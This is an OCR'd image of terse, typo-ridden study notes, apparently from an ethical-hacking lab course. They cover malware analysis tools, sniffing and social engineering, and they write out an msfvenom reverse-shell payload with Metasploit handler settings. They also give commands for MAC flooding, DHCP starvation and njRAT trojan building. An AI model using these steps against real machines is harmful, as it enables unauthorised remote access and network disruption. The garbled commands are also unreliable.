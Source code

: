 * persistence PE using boot order

1 msfvenom -p windwos/meterpreter/reverse_rcp lhost=our_ip lport=8888 -f exe > payload.exe
2. chmod -R 755 /var/www/html/share/
3. chown -R www-data:www-data /var/www/html/share
4. cp /home/attacker/Desktop/exploit.exe /var/www/html/share
5. set payload windows/meterpreter/reverse_tcp
6. set lhost ip
7. set lport 8888
8. exploit 

- buffer overflow attack to gain rce using immunity debugger

* Malware anaylsis

- Gain control of victom machcine using njrat.exe trojan
1. port 5552 or some weird of 4 digit XXXX
2. builder -> to buld -> pass to the sys 

- create virus using JPS virus maker.exe tools 

- Perform malware analyis using hybrid analysis.com
1. threat score, sha value, online scan results and a lot more 

- analyze Elf file using DIE.exe 11mb -  detect it east 
1. file info - entropy, hash, 

- Malware disassembly using IDA.exe and oolyDBG | static
1. ida v7.exe 
2. right click and test view for text view for binary analysis
3. flowgraph for flowchart | hex view for hex vlaue | 
4. - Ollydbg.exe | view and log for log details = functions 
5. executable modules -> executbale module -> click to view info -> cpu main thread win -> view button-> memory mapping 
6. view button -> threads ->> scan files and output

- port monitoring using tcpview.exe and currports
1. details of port,process and pid and all sort of port info of machine

- prefomr process moitoring using processmonitor - dynamic analsi
1. server machine -> procmon.exe -> click on process - properties

* Sniffin 

- perform mac flooding using macof
1. macof -i etho0 -n 10

- perfomr a dhcp starvation using yersinia
1. yersinia -I 
2. press h -> q -> f2 dhcp mode -> x -> 1 dhcp starvation attack 

- perfomr pwd sniffing using Wireshark 
1. http.request.method==post

- detec arp poisoning and promiscouos mode 
1. cain.exe -> configure btn | coala capsa network analyszer.exe

* Social Engineeriing
- SETTOOLKIT
- detect phisinh using netcraft.com extensions on browser = risk rating and a lot more on site.
